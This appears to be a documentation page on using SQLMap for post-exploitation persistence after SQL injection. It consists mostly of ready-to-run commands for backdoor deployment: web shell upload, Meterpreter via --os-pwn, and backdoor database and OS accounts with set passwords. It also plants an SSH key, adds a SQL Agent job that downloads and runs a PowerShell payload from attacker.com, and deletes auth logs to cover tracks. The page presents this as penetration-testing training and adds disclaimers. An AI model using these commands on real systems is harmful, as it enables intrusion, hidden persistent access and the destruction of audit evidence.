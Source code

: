 ```yaml
---
title: Maintaining Access
description: Learn how to establish persistent access using SQLMap's advanced techniques
---
```


# Maintaining Access

SQLMap provides several methods to establish persistent access to vulnerable systems after successful SQL injection exploitation. These techniques are valuable for authorized penetration testing scenarios where maintaining access is part of the assessment scope.

## Backdoor Deployment Options

### Web Shell Deployment

SQLMap can deploy a web shell to maintain access:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"
```

This uploads a local file to the target web server directory, allowing subsequent access through the web interface.

### Metasploit Integration (`--os-pwn`)

To establish a Meterpreter session:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-pwn --msf-path=/path/to/metasploit
```

This command:
1. Generates a Metasploit payload
2. Uploads it to the target server
3. Executes it to establish a Meterpreter session
4. Connects back to your Metasploit handler

### SMB Relay Attack (`--os-smbrelay`)

For Windows targets:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-smbrelay
```

This establishes access using SMB relay techniques, which can be effective in Windows environments.

## Database-Level Persistence

### Creating Database Backdoor Users

To create a new database user with administrative privileges:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --sql-query="CREATE USER 'backdoor'@'%' IDENTIFIED BY 'password123'; GRANT ALL PRIVILEGES ON *.* TO 'backdoor'@'%';"
```

This creates a new database user that can be used for future access.

### Scheduled Tasks and Jobs

For SQL Server, you can create a SQL Agent job:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --sql-query="EXEC msdb.dbo.sp_add_job @job_name='maintenance', @enabled=1; EXEC msdb.dbo.sp_add_jobstep @job_name='maintenance', @step_name='step1', @command='EXEC xp_cmdshell ''powershell -c \"IEX (New-Object Net.WebClient).DownloadString(''''http://attacker.com/payload.ps1'''')\"'''; EXEC msdb.dbo.sp_add_jobschedule @job_name='maintenance', @name='daily', @freq_type=4, @freq_interval=1, @active_start_time=010000;"
```

This creates a scheduled job that executes a command periodically.

## System-Level Persistence

### Creating System Users

On Unix-based systems:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-cmd="useradd -m -p $(openssl passwd -1 password123) backdoor && usermod -aG sudo backdoor"
```

On Windows systems:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-cmd="net user backdoor password123 /add && net localgroup administrators backdoor /add"
```

### SSH Key Deployment

To add an SSH key for persistent access:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --file-write="id_rsa.pub" --file-dest="/home/user/.ssh/authorized_keys"
```

This adds your public key to the authorized_keys file, allowing SSH access without a password.

## Covering Tracks

After establishing persistence, it's important to clean up evidence:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-cmd="rm -f /var/log/auth.log"
```

<Note title="Ethical and Legal Warning">
Persistence techniques should only be used in authorized security testing scenarios where maintaining access is explicitly part of the scope. Unauthorized access to systems is illegal and unethical.
</Note>

## Best Practices for Authorized Testing

When maintaining access during authorized penetration tests:

1. Document all persistence mechanisms deployed
2. Use unique identifiers for all created accounts and files
3. Set up proper cleanup procedures for after the test
4. Ensure all persistence mechanisms are removed at the end of testing
5. Coordinate with the system owners about the persistence methods used

Remember that the goal of security testing is to improve security, not to compromise it. Always follow responsible disclosure practices and the agreed-upon rules of engagement.
